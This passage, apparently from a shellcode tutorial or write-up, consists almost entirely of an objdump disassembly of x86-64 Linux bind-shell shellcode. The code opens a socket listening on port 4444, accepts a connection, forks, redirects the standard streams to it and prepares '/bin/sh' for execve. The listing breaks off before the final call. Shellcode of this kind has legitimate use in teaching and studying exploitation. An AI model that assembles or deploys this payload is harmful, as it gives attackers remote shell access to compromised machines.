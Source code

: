 which give us:

```
asm.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <accept-0x34>:
   0:   31 c0                   xor    %eax,%eax
   2:   b0 01                   mov    $0x1,%al
   4:   89 c6                   mov    %eax,%esi
   6:   fe c0                   inc    %al
   8:   89 c7                   mov    %eax,%edi
   a:   48 31 d2                xor    %rdx,%rdx
   d:   b0 29                   mov    $0x29,%al
   f:   0f 05                   syscall
  11:   93                      xchg   %eax,%ebx
  12:   48 31 c0                xor    %rax,%rax
  15:   50                      push   %rax
  16:   68 02 01 11 5c          pushq  $0x5c110102
  1b:   88 44 24 01             mov    %al,0x1(%rsp)
  1f:   48 89 e6                mov    %rsp,%rsi
  22:   b2 10                   mov    $0x10,%dl
  24:   89 df                   mov    %ebx,%edi
  26:   b0 31                   mov    $0x31,%al
  28:   0f 05                   syscall
  2a:   b0 05                   mov    $0x5,%al
  2c:   89 c6                   mov    %eax,%esi
  2e:   89 df                   mov    %ebx,%edi
  30:   b0 32                   mov    $0x32,%al
  32:   0f 05                   syscall

0000000000000034 <accept>:
  34:   31 d2                   xor    %edx,%edx
  36:   31 f6                   xor    %esi,%esi
  38:   89 df                   mov    %ebx,%edi
  3a:   b0 2b                   mov    $0x2b,%al
  3c:   0f 05                   syscall
  3e:   89 c5                   mov    %eax,%ebp
  40:   b0 39                   mov    $0x39,%al
  42:   0f 05                   syscall
  44:   09 c0                   or     %eax,%eax
  46:   75 ec                   jne    34 <accept>
  48:   89 ef                   mov    %ebp,%edi
  4a:   48 31 c0                xor    %rax,%rax
  4d:   89 c6                   mov    %eax,%esi
  4f:   b0 21                   mov    $0x21,%al
  51:   0f 05                   syscall
  53:   fe c0                   inc    %al
  55:   89 c6                   mov    %eax,%esi
  57:   b0 21                   mov    $0x21,%al
  59:   0f 05                   syscall
  5b:   fe c0                   inc    %al
  5d:   89 c6                   mov    %eax,%esi
  5f:   b0 21                   mov    $0x21,%al
  61:   0f 05                   syscall
  63:   48 31 d2                xor    %rdx,%rdx
  66:   48 bb ff 2f 62 69 6e    movabs $0x68732f6e69622fff,%rbx
  6d:   2f 73 68
  70:   48 c1 eb 08             shr    $0x8,%rbx
  74:   53                      push   %rbx
  75:   48 89 e7                mov    %rsp,%rdi
  78:   48 31 c0                xor    %rax,%rax
```